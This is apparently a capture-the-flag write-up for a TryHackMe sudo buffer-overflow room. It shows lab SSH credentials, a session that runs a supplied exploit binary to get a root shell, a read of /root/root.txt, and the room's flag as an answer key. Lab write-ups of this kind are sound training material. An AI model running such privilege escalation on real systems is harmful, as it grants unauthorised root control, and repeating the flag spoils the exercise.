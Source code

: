 # Sudo Buffer Overflow | https://tryhackme.com/room/sudovulnsbof

### [Task 2] Buffer Overflow

ssh -p 4444 tryhackme@10.10.164.254

Password : tryhackme 

```
ssh -p 4444 tryhackme@10.10.164.254
tryhackme@10.10.164.254's password: 
Last login: Thu Jun 18 03:30:09 2020 from 10.9.18.54
tryhackme@sudo-bof:~$ ls
exploit
tryhackme@sudo-bof:~$ ./exploit 
[sudo] password for tryhackme: 
Sorry, try again.
# 
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root),1000(tryhackme)
# cat /root/root.txt
THM{buff3r_0v3rfl0w_rul3s}
```

#2	What's the flag in /root/root.txt? : `THM{buff3r_0v3rfl0w_rul3s}`
